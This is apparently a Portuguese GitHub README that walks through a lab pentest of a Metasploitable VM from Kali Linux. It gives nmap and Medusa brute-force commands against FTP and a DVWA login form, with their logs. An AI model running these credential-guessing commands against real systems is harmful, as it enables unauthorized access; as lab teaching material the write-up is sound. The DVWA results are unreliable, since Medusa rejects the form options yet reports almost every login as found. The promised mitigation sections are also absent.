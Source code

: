 # Kali_Teste

<!-- Utilização do S.O Kali Linux e do Metasploitable para testes de ethical hacking e invasão. -->

##Descrição

Este projeto iremos utilizar ferramentas integradas do Kali Linux para execução de testes de invasão, com o apoio do Metasploitable.
Sendo mostrado passo-a-passo neste documento.

##Indice
1.Pre-requesitos(#pré-requisitos)
2.Configuração do ambiente(#configuração-do-ambiente)
3.Wordlists e arquivos(#wordlists-e-arquivos)
4.Testes realizados(#testes-realizados)
5.Evidências / Logs(#evidências--logs)
6.Mitigações e recomendações(#mitigações-e-recomendações)
7.Estrutura do repositório

## Pré-requisitos

- Oracle Virtual Box (para emulação do Kali Linux e do Metasploitable)
- Download nos sites oficiais de ambas imagens para emulação
- Criação da VM de Kali Linux com o Oracle Virtual Box
- Criação da VM do Metasploitable com o Oracle Virtual Box
- Utilizar as ferrramentas do Kali Linux: (Medusa, nmap, enum4linux)

## Configuração do ambiente

1. Apos download e instalação do Oracle Virtual Box, extrair as .iso's e executar para trazer para a lista de maquinas no Oracle.
2. Configurar a placa de rede das V.M's que foram criadas de NAT para Host-Only (assim elas poderam se enxergar entre si).
3. Iniciar ambas V.M's e testar o comando ifconfig para ver a rede de cada V.M e testar o comando de ping entre elas (ping -c 3 192.168.xxx.xxx) para ver se estão se enxergando.

##Wordlists e arquivos

1. Utilizar a linha de comando para a criação da lista de usuários: (printf "user\nmsfadmin\nadmin\nroot\n" > usuarios.txt)
2. Utilizar a linha de comando para a criação de lista de senhas: (printf "%s\n" "123456" "password" "qwerty" "msfadmin" > senhas.txt)

## Testes realizados

- Efetuamos a varredura das portas no Megasploitable com a ferramenta Nmap no Kali Linux,

  **Utilizando o comando**
  nmap -sV -p 21,22,80,123,445,5900 192.168.56.101

  **Resultado**
  
Nmap scan report for 192.168.56.101
Host is up (0.00020s latency).

PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         vsftpd 2.3.4
22/tcp   open   ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp   open   http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
123/tcp  closed ntp
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
5900/tcp open   vnc         VNC (protocol 3.3)
MAC Address: 08:00:27:CC:E7:68 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- Agora vamos utilizar a ferramenta Medusa para teste de Brute-Force via FTP (TCP 21)

  **Utilizando o comando**
  medusa -h 192.168.56.101 -U usuarios.txt -P senhas.txt -M ftp -t 10 | tee logs/ftp_medusa.log

  **Resultado**

2025-10-14 23:18:37 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 2 complete) Password: msfadmin (1 of 4 complete)
2025-10-14 23:18:37 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: 123456 (1 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: qwerty (2 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 4 complete) Password: password (3 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 4 complete) Password: 123456 (2 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 4 complete) Password: password (3 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 4 complete) Password: msfadmin (4 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: 123456 (1 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: password (2 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: qwerty (3 of 4 complete)
2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 5 complete) Password: qwerty (4 of 4 complete)
2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: msfadmin (4 of 4 complete)
2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: password (1 of 4 complete)
2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: 123456 (2 of 4 complete)
2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: qwerty (3 of 4 complete)
2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: msfadmin (4 of 4 complete)

Notem que na linha 2 deu sucesso ao tentar descobrir o usuario e senha da porta 21.

Abaixo tentaremos acessar o FTP com as credenciais que a Medusa nos forneceu:

ftp 192.168.56.101                                                                                 
Connected to 192.168.56.101.
220 (vsFTPd 2.3.4)
Name (192.168.56.101:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

- Agora iremos utilizar a Medusa para o teste de Brute Force em formulário web (dvwa)

  **Utilizando o comando**

  medusa -h 192.168.56.101 -U usuarios.txt -P senhas.txt -M http \              
  -m PAGE:'/dvwa/login.php' \                                                                     
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login failed' -t 6

  **Resultado**

<details> <summary>Trecho do log (linhas com ACCOUNT FOUND)</summary>
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FORM.
WARNING: Invalid method: FAIL=Login failed.
WARNING: WARNING: Invalid method: PAGE.
WARNING: Invalid method: FORM.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: FORM.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FORM.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FORM.
WARNING: Invalid method: FAIL=Login failed.
Invalid method: PAGE.
WARNING: Invalid method: FORM.
WARNING: Invalid method: FAIL=Login failed.
2025-10-14 23:37:25 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: qwerty (1 of 4 complete)
2025-10-14 23:37:25 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: user Password: qwerty [SUCCESS]
2025-10-14 23:37:25 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 2 complete) Password: qwerty (1 of 4 complete)
2025-10-14 23:37:25 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: msfadmin Password: qwerty [SUCCESS]
2025-10-14 23:37:25 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 3 complete) Password: 123456 (1 of 4 complete)
2025-10-14 23:37:25 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: admin Password: 123456 [SUCCESS]
2025-10-14 23:37:25 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 4 complete) Password: msfadmin (2 of 4 complete)
2025-10-14 23:37:25 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: user Password: msfadmin [SUCCESS]
2025-10-14 23:37:25 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: 123456 (1 of 4 complete)
2025-10-14 23:37:25 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: root Password: 123456 [SUCCESS]
2025-10-14 23:37:25 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 6 complete) Password: password (2 of 4 complete)
2025-10-14 23:37:25 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: root Password: password [SUCCESS]
2025-10-14 23:37:25 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 7 complete) Password: 123456 (2 of 4 complete)
2025-10-14 23:37:25 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: msfadmin Password: 123456 [SUCCESS]
2025-10-14 23:37:25 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 8 complete) Password: 123456 (3 of 4 complete)
2025-10-14 23:37:25 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: user Password: 123456 [SUCCESS]
2025-10-14 23:37:25 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 9 complete) Password: password (3 of 4 complete)
2025-10-14 23:37:25 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: msfadmin Password: password [SUCCESS]
2025-10-14 23:37:25 ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 10 complete) Password: password (4 of 4 complete)
2025-10-14 23:37:25 ACCOUNT FOUND: [http] Host: 192.168.56.101 User: user Password: password [SUCCESS]
</details>


















